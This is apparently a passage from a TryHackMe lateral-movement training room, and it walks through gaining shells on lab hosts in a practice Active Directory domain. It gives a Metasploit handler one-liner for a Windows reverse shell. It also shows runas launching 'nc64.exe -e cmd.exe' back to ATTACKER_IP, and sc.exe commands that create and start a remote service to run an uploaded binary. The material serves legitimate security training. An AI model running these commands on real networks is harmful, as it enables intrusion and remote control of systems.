 Alternatively, you can run the following one-liner on your Linux console to do the same:

- **AttackBox**

```shell
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"        
```

Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1_leonard.summer's access token. Still, we  only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would  have no access to it. To overcome this problem, we can use runas to  spawn a second reverse shell with t1_leonard.summers access token:  

- **THMJMP2: Command Prompt **

```powershell
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

To check if it works run `dir \\za.tryhackme.com\sysvol`

**Note:** Remember that since you are using `runas` with the `/netonly` option, it will not bother to check if the provided credentials are valid (more info on this on the [Enumerating AD room](https://tryhackme.com/room/adenumeration)), so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.

We can receive the reverse shell connection using nc in our AttackBox as usual:

- **AttackBox   **

```shell
user@AttackBox$ nc -lvp 4443
```

And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:  

- **THMJMP2: Command Prompt (As t1_leonard.summers) **

```powershell
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

Be sure to change the name of your service to avoid clashing with other students.

Once you have started the service, you should receive a connection in your  AttackBox from where you can access the first flag on t1_leonard.summers desktop.

#  Moving Laterally Using WMI                            

We can also perform many techniques discussed in the previous task  differently by using Windows Management Instrumentation (WMI). WMI is  Windows implementation of Web-Based Enterprise Management (WBEM), an  enterprise standard for accessing management information across  devices. 

